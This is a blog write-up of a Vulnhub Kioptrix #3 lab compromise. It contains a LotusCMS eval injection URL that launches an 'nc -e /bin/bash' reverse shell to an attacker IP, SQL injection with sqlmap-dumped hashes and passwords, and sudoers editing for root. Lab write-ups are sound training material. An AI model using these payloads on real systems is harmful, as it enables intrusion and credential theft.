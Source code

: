 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #3 Writeup"
date:   2020-02-07 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Enumeration
Lets add `kioptrix3.com` to `hosts` file and start off with `Nmap`

#### Nmap
***
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:34 IST
Nmap scan report for 192.168.71.130
Host is up (0.0026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:93:F2:E6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

Found some interesting urls by browsing around and using `dirb`.
```bash
http://kioptrix3.com/phpmyadmin/
http://kioptrix3.com/gallery/gadmin/
http://kioptrix3.com/index.php?system=Admin
```

There are lot of methods to compromise this system. I will try to explain the ones I found.

# User Shell Method 1 (Lotus CMS RCE)
The webserver is using `LotusCms`. A quick search using `searchsploit` yielded some `RCE`

#### Searchsploit
***
```bash
kali@kali:~$ searchsploit lotuscms
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)               | exploits/php/remote/18565.rb
```

Its a `metasploit` module. However since use of `metasploit` is limited during OSCP, I exploited it without `metasploit`

#### Understanding LotusCms RCE
***  
>This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter, 
>which will be passed to a eval call, therefore allowing remote code execution.

So we can escape the `eval` call and execute our own php code by appending `');`

A reverse shell can be execute using the following code
```bash
kioptrix3.com/index.php?page=index');exec("nc -e /bin/bash 192.168.174.3 1234"); //
```
Setup a `nc` listener to catch the request and use `python pty` module to upgrade it to a full TTY shell
```bash
kali@kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.174.3] from kioptrix3.com [192.168.174.5] 34305
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$    
```

## Low Shell Enumeration

There is a file named `gconfig.php` in `/home/www/kioptrix3.com/gallery` that contains the `db` credentials
```bash
www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
cat gconfig.php
-------output snipped---------------
        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
-------output snipped---------------
```

We can use these credential to login to `phpmyadmin` and find credentials for `dreg` and `loneferret` and use it to `SSH` into the box.
But we have to crack the hashes to get the password.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/phpmyadmin2.png){: .align-center}

# User Shell Method 2 (SQL Injection)

The web server is using `Gallarific`. It contains an SQL Injection in the following url.

```bash
http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=filename#photos
```
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/sql1.png){: .align-center}

The sql error indicates that sql injection is possible. Lets dump the database using `sqlmap`

#### SqlMap
***
```bash
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+

Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |

```
`sqlmap` found login for the users `dreg` and `loneferret` and also logins for `gallarffic`.

These hashes can be cracked using rainbow tables or by brute forcing.

#### Crackstation (Rainbow Table Attack)
We can crack the hashes using online rainbow table hash cracker. [Crackstaion](crackstation.net/)
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/crackstation.png){: .align-center}


## Root Shell
After `SSH`ing into the box we can see that there is a file named `CompanyPolicy.README` which contains the following text.

```bash
loneferret@Kioptrix3:/home/loneferret# cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

So we can run `sudo ht`. `ht` is a text editor and since its running as `root` we can gain `root` using one these methods
1. Edit `sudoers` file 
2. Add our key to `ssh`
3. Change the password file.

Since method 1 is the easiest, lets do it that way.

Before using `ht` we have to set the `$TERM` env variable to `xterm`
```bash
loneferret@Kioptrix3:/home/loneferret#export TERM=xterm
```
So lets open `sudoers` file and add `/bin/sh` to it.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/root.gif){: .align-center}

And we are root!

## Afterthoughts
This box was comparatively easy to root. But that was not the case for me. This was because I failed to enumerate the box properly. Once I found a possible exploit
I immediately abandoned further enumeration and focused on that method alone and ended up getting stuck and had to look for hints. So I have learned a very important lesson form this box. Enumeration is the most important step.  
There seems to be a kernel exploit available for this box, but I did not try that out.

## Further reading
1. [Manual SQL Injection.](https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step) Can't use `sqlmap` during OSCP
2. [Structure of sudoers file](https://www.garron.me/en/linux/visudo-command-sudoers-file-sudo-default-editor.html)
3. [Autorecon.](https://github.com/Tib3rius/AutoRecon) An excellent tool for automating enumeration